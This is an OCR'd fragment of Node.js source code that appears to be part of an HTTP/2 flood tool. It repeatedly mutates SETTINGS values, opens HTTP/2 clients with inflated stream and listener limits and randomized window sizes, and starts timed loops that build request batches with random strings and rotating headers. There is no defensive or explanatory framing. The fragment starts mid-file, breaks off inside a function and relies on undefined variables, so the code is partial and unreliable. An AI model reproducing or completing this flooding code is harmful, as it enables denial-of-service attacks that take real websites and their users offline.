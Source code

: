 function incrementClasqValues() {
    if (clasq.headerTableSize) clasq.headerTableSize += 1;
    if (clasq.maxConcurrentStreams) clasq.maxConcurrentStreams += 1;
    if (clasq.initialWindowSize) clasq.initialWindowSize += 1;
    if (clasq.maxHeaderListSize) clasq.maxHeaderListSize += 1;
    if (clasq.maxFrameSize) clasq.maxFrameSize += 1;
    return clasq;
}
setInterval(() => {
    incrementClasqValues();
    const payload = Buffer.from(JSON.stringify(clasq));
    const frames = encodeFrame(0, 4, payload, 0);
}, 10000);
    let hpack = new HPACK();
    hpack.setTableSize(4096);

    const clients = [];
    const client = http2.connect(parsed.href, {
		
		settings: incrementClasqValues(),
    "unknownProtocolTimeout": 10,
    "maxReservedRemoteStreams": 4000,
    "maxSessionMemory": 200,
   createConnection: () => tlsSocket
	});
clients.push(client);
client.setMaxListeners(0);
const updateWindow = Buffer.alloc(4);
    updateWindow.writeUInt32BE(Math.floor(Math.random() * (19963105 - 15663105 + 1)) + 15663105, 0);
    client.on('remoteSettings', (settings) => {
        const localWindowSize = Math.floor(Math.random() * (19963105 - 15663105 + 1)) + 15663105;
        client.setLocalWindowSize(localWindowSize, 0);
    });
    client.on('connect', () => {
        client.ping((err, duration, payload) => {
            if (err) {
            } else {
            }
        });
        
    });

    clients.forEach(client => {
        const intervalId = setInterval(async () => {
            const requests = [];
            const requests1 = [];
            let count = 0;
            let streamId =1;
            let streamIdReset = 0;
            let currenthead = 0;
			const randomString = [...Array(10)].map(() => Math.random().toString(36).charAt(2)).join('');
      
      const headers2 = (currenthead) => {
                let updatedHeaders = {};
                currenthead += 1;
            